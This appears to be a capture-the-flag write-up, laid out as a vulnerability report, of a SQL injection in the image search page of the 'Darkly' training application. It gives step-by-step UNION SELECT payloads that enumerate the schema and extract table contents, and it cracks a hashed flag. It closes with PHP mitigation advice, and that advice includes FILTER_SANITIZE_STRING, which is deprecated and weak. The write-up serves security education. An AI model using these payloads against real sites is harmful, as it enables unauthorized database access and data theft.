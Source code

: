 # Vulnerability Report

## Summary

An SQL Injection vulnerability exists in the image search feature of the `Darkly` application. This flaw allows attackers to manipulate SQL queries to access unauthorized data, enumerate database schemas, and compromise sensitive information.

## Vulnerability details

### CWE Reference

- **CWE ID**: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

### Description

The application does not properly handle user input submitted through the search field on the `Image Search` page. The lack of parameterized queries and input validation allows attackers to inject malicious SQL payloads. By exploiting this vulnerability, attackers can enumerate the database structure, extract sensitive information, and execute unauthorized actions on the database.

### Steps to reproduce

1. Navigate to the `Image Search` feature at [searchimg](http://darkly/index.php?page=searchimg).
2. Inject `1 OR 1=1` into the search field.
3. Submit the form and observe that all images are displayed, confirming the SQL Injection vulnerability.

### Exploitation process

1. **Determine the number of columns**:
   - Inject payloads such as `ORDER BY 1`, `ORDER BY 2`, etc., to find that the query uses 2 columns.

2. **Extract database name**:
   - Inject `1 UNION SELECT NULL, DATABASE()` to retrieve the database name `Member_images`.

3. **List tables**:
   - Use `1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 0x4d656d6265725f696d61676573` to identify the table `list_images`.

4. **Enumerate columns**:
   - Inject `1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573` to identify columns `id`, `url`, `title`, and `comment`.

5. **Extract data**:
   - Inject `1 UNION SELECT title, comment FROM list_images` to extract the `title` and `comment` fields from the `list_images` table.

6. **Find the flag**:
   - Locate the hint `If you read this just use this md5 decode lowercase then sha256 to win this flag!: 1928e8083cf461a51303633093573c46`.

7. **Decode MD5 and generate SHA256**:
   - Decode `1928e8083cf461a51303633093573c46` to `albatroz` using a tool like CrackStation.
   - Convert the result to SHA256 to retrieve the flag using:
     ```bash
     echo -n albatroz | sha256sum
     ```

### Impact

The impact of this vulnerability is critical. It allows attackers to:
- Access sensitive database information, such as schemas, tables, and records.
- Execute unauthorized queries, potentially leading to data breaches and system compromise.

## Mitigation

1. **Use Prepared Statements and Parameterized Queries**:
   - Replace dynamic queries with parameterized ones. Example in PHP:
     ```php
     $stmt = $pdo->prepare("SELECT * FROM list_images WHERE id = ?");
     $stmt->execute([$id]);
     ```

2. **Input Validation**:
   - Validate and sanitize all user inputs server-side. Reject patterns indicative of SQL Injection.
   - **Example**: Use a whitelist to restrict input to expected patterns and lengths. In PHP:
     ```php
     if (!preg_match('/^[a-zA-Z0-9_]+$/', $input)) {
         die("Invalid input.");
     }
     ```
   - Alternatively, use a validation library such as `filter_var()`:
     ```php
     $input = filter_var($input, FILTER_SANITIZE_STRING);
     ```

## References

2. [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
